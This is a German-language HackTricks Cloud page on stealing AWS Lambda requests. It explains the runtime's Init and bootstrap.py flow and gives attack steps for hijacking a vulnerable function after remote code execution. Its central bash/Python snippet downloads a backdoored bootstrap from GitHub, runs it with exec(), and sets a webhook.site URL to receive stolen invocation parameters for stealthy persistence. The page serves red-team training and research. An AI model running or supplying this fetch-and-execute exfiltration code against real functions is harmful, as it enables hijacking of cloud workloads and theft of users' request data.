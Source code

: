 # AWS - Lambda-Anfragen stehlen

{% hint style="success" %}
Lerne & übe AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Lerne & übe GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstütze HackTricks</summary>

* Überprüfe die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Tritt der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folge** uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teile Hacking-Tricks, indem du PRs zu den** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos einreichst.

</details>
{% endhint %}

## Lambda-Flow

<figure><img src="../../../../.gitbook/assets/image (341).png" alt=""><figcaption><p><a href="https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png">https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png</a></p></figcaption></figure>

1. **Slicer** ist ein Prozess außerhalb des Containers, der **Aufrufe** an den **Init**-Prozess **sendet**.
2. Der Init-Prozess hört auf Port **9001** und exponiert einige interessante Endpunkte:
* **`/2018-06-01/runtime/invocation/next`** – hole das nächste Aufrufereignis
* **`/2018-06-01/runtime/invocation/{invoke-id}/response`** – gib die Handler-Antwort für den Aufruf zurück
* **`/2018-06-01/runtime/invocation/{invoke-id}/error`** – gib einen Ausführungsfehler zurück
3. **bootstrap.py** hat eine Schleife, die Aufrufe vom Init-Prozess erhält und den Benutzer-Code aufruft, um sie zu verarbeiten (**`/next`**).
4. Schließlich sendet **bootstrap.py** die **Antwort** an Init.

Beachte, dass bootstrap den Benutzer-Code als Modul lädt, sodass jede Codeausführung, die vom Benutzer-Code durchgeführt wird, tatsächlich in diesem Prozess stattfindet.

## Stehlen von Lambda-Anfragen

Das Ziel dieses Angriffs ist es, den Benutzer-Code dazu zu bringen, einen bösartigen **`bootstrap.py`**-Prozess innerhalb des **`bootstrap.py`**-Prozesses auszuführen, der die verwundbare Anfrage verarbeitet. Auf diese Weise wird der **bösartige Bootstrap**-Prozess beginnen, mit dem Init-Prozess zu **kommunizieren**, um die Anfragen zu bearbeiten, während der **legitime** Bootstrap **gefangen** ist und den bösartigen ausführt, sodass er keine Anfragen an den Init-Prozess stellt.

Dies ist eine einfache Aufgabe, da der Code des Benutzers vom legitimen **`bootstrap.py`**-Prozess ausgeführt wird. Der Angreifer könnte also:

* **Ein gefälschtes Ergebnis des aktuellen Aufrufs an den Init-Prozess senden**, sodass Init denkt, der Bootstrap-Prozess wartet auf weitere Aufrufe.
* Eine Anfrage muss an **`/${invoke-id}/response`** gesendet werden.
* Die invoke-id kann vom Stack des legitimen **`bootstrap.py`**-Prozesses mit dem [**inspect**](https://docs.python.org/3/library/inspect.html) Python-Modul (wie [hier vorgeschlagen](https://github.com/twistlock/lambda-persistency-poc/blob/master/poc/switch\_runtime.py)) oder einfach erneut angefordert werden an **`/2018-06-01/runtime/invocation/next`** (wie [hier vorgeschlagen](https://github.com/Djkusik/serverless\_persistency\_poc/blob/master/gcp/exploit\_files/switcher.py)).
* Einen bösartigen **`bootstrap.py`** ausführen, der die nächsten Aufrufe verarbeitet.
* Aus Gründen der Heimlichkeit ist es möglich, die Lambda-Aufrufparameter an ein vom Angreifer kontrolliertes C2 zu senden und die Anfragen dann wie gewohnt zu bearbeiten.
* Für diesen Angriff reicht es aus, den ursprünglichen Code von **`bootstrap.py`** vom System oder [**GitHub**](https://github.com/aws/aws-lambda-python-runtime-interface-client/blob/main/awslambdaric/bootstrap.py) zu erhalten, den bösartigen Code hinzuzufügen und ihn aus dem aktuellen Lambda-Aufruf auszuführen.

### Angriffs Schritte

1. Finde eine **RCE**-Schwachstelle.
2. Generiere einen **bösartigen** **Bootstrap** (z.B. [https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py](https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py))
3. **Führe** den bösartigen Bootstrap aus.

Du kannst diese Aktionen einfach ausführen, indem du Folgendes ausführst:
```bash
python3 <<EOF
import os
import urllib3

# Download backdoored bootstrap
http = urllib3.PoolManager()
backdoored_bootstrap_url = "https://raw.githubusercontent.com/carlospolop/lambda_bootstrap_switcher/main/backdoored_bootstrap.py"
new_runtime = http.request('GET', backdoored_bootstrap_url).data

# Load new bootstrap
os.environ['URL_EXFIL'] = "https://webhook.site/c7036f43-ce42-442f-99a6-8ab21402a7c0"

exec(new_runtime)
EOF
```
Für weitere Informationen siehe [https://github.com/carlospolop/lambda\_bootstrap\_switcher](https://github.com/carlospolop/lambda\_bootstrap\_switcher)

## Referenzen

* [https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/](https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/)

{% hint style="success" %}
Lerne & übe AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Lerne & übe GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstütze HackTricks</summary>

* Überprüfe die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Tritt der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folge** uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teile Hacking-Tricks, indem du PRs zu den** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos einreichst.

</details>
{% endhint %}
